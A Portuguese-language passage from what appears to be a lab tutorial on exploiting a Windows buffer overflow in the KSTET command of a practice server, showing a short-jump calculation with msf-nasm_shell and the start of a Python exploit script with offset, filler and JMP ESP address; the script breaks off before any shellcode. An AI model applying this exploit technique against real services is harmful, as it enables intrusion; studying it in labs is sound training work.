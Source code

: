 ![Enumaração do comando.](/std/winbof/winbof-69.png)

Caímos exatamente em nosso buffer de “C”, porém temos somente 13 bytes para aproveitar, absolutamente nada nos termos de exploit, mas temos um buffer de 70 bytes de “A”, o que também não é muita coisa, mas deixa espaço para sermos criativos.

Vamos calcular o salto para o buffer de “A” com o msf-nasm_shell, temos um salto de 74 bytes para fazer (70 bytes de “A” + 4 bytes do JMP ESP).

```bash
$ msf-nasm_shell                       
nasm > JMP $-74
00000000  EBB4              jmp short 0xffffffb6

```

Temos o short jump de \xeb\xb4. Vamos atualizar o script e monitorar.
xplkstet.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payload
offset = 206

# payload
payload = b"KSTET "
payload += b"A"*70 # buffer inicial
payload += b"\xd3\x11\x50\x62" # JMP ESP
```